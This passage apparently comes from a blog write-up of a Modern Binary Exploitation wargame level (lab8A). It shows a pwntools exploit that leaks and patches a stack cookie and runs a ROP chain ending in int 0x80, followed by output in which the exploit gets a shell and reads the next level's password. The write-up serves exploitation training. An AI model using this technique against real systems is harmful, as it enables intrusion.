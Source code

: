     p += p32(0x0807bc96) # inc eax ; ret
    p += p32(0x0807bc96) # inc eax ; ret
    p += p32(0x0807bc96) # inc eax ; ret
    p += p32(0x08048ef6) # int 0x80

    payload  = "C"*16           # filler
    payload += p32(0xdeadbeef)  # pass xor check
    payload += "D"*4            # filler
    payload += p32(cookie)      # patch the cookie
    payload += "B"*4
    payload += p32(0x80481b2)   # ret gadget
    payload += p                # ROP chain    
    r.send(payload)
    
    r.interactive()
if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/home/rh0gue/Documents/MBE/lab08/8A/lab8A'], env={"LD_PRELOAD":""})
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

{% highlight bash %}
rh0gue@vexillum:~/Documents/MBE/lab08/8A$ python solve.py warzone 8841
[*] For remote: solve.py HOST PORT
[+] Opening connection to warzone on port 8841: Done
[+] cookie leaked: 0xb0404f00
[*] Switching to interactive mode
$ id
uid=1032(lab8end) gid=1033(lab8end) groups=1033(lab8end),1001(gameuser)
$ cat /home/lab8end/.pass
H4x0r5_d0nt_N33d_m3t4pHYS1c5
$  

{% endhighlight %}
